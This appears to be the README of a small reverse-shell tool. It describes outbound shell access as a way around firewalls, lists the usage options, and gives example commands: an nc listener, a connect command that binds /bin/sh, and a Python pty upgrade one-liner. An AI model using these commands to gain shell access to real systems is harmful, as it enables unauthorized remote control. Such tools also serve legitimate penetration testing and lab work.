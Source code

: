 # reverse-shell

A simple reverse shell over TCP or UDP.

## Overview

A reverse shell is a network tool that grants shell access to a remote host.
As opposed to other remote login tools such as telnet and ssh, a reverse shell
is initiated by the remote host. This technique of connecting outbound from
the remote network allows for circumvention of firewalls that are configured
to block inbound connections only.

## Usage

```
usage: rshell [options] <host> <port> [peer]
arguments:
        host        : mandatory specific host to bind or connect (could be "any" in listen mode)
        port        : mandatory specific port to bind or connect
        peer        : optional peer address to accept connection from in listen mode
options:
        -4         : use IPv4 socket
        -6         : use IPv6 socket
        -f         : foreground mode (eg: no fork)
        -h         : display this and exit
        -l         : listen mode
        -s <shell> : give the path shell (default: /bin/sh)
        -u         : use an UDP socket
        -v         : display version and exit
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```
or
```
./rshell -l 127.0.0.1 4445
```

On the 'server' side, we bind the shell to the listener :
```
./rshell 127.0.0.1 4445
```

## Tip
Once you have the shell, if you want to be more confortable :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
